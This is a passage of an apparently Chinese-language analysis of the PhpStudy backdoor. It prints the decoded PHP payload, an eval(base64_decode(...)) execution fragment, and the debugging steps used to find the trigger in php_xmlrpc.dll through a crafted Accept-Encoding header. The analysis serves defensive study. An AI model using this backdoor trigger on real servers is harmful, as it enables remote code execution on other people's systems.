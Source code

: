                 $n=true;
            }
            @eval(base64_decode($info[3]));
        }
    }while($n);

![4.jpg](resource/Phpstudy后门(非官方后门！！！)/media/rId31.jpg)

从1000D028 到1000D66C的代码解密：

    @ini_set("display_errors","0");
    error_reporting(0);
    $h = $_SERVER['HTTP_HOST'];
    $p = $_SERVER['SERVER_PORT'];
    $fp = fsockopen($h, $p, $errno, $errstr, 5);
    if (!$fp) {
    } else {
        $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
        $out .= "Host: {$h}\r\n";
        $out .= "Accept-Encoding: compress,gzip\r\n";
        $out .= "Connection: Close\r\n\r\n";

        fwrite($fp, $out);
        fclose($fp);
    }

![5.jpg](resource/Phpstudy后门(非官方后门！！！)/media/rId32.jpg)

#### 动态调试构造传参内容

OD动态调试传参值需要对httpd.exe进程进行附加调试，phpstudy启用的httpd进程有两个。一个是带有参数的，一个是没有带参数的。在下断的时候选择没有参数的httpd.exe下断才能触发后门。

根据前面IDA静态分析得到的后门函数地址，OD附加进程后从httpd.exe调用的模块里找到php\_xmlrpc.dll模块，在DLL空间里定位后门函数地址0x100031F0，可能还需要手动修改偏移后下断点。使用burpsuite，构造Accept-Encoding的内容。发包后可以动态调试。建立触发点的虚拟机快照后可以反复跟踪调试得到最终可利用的payload。

![6.jpg](resource/Phpstudy后门(非官方后门！！！)/media/rId34.jpg)

图4：OD动态调试Payload

#### PHP脚本后门分析

脚本一功能：使用fsockopen模拟GET发包

    @ini_set("display_errors","0");
    error_reporting(0);
    $h = $_SERVER['HTTP_HOST'];
    $p = $_SERVER['SERVER_PORT'];
    $fp = fsockopen($h, $p, $errno, $errstr, 5);
    if (!$fp) {
    } else {
        $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
        $out .= "Host: {$h}\r\n";
        $out .= "Accept-Encoding: compress,gzip\r\n";
        $out .= "Connection: Close\r\n\r\n";
